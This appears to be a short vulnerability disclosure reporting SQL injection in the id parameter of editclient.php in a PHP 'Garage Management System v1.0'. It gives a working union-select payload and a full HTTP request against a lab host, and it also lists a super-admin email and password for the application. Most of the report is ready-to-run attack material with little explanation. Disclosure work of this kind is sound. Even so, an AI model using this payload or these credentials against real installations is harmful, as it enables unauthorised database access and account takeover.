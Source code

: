 # Garage Management System v1.0 by mayuri_k has SQL injection

BUG_Author:Broccoli

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /garage/editclient.php?id=

Vulnerability location: /garage/editclient.php?id=, id

dbname = garagedb

[+] Payload: /garage/editclient.php?id=-1%27+union+select+1,database(),3,4,5,6,7,8--+ // Leak place ---> id

```sql
GET /garage/editclient.php?id=-1%27+union+select+1,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=m6rramo7f8jalaggbvjh84b1mm
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180587733-739dfd7e-0eb7-426e-a7e1-e483cb881134.png)
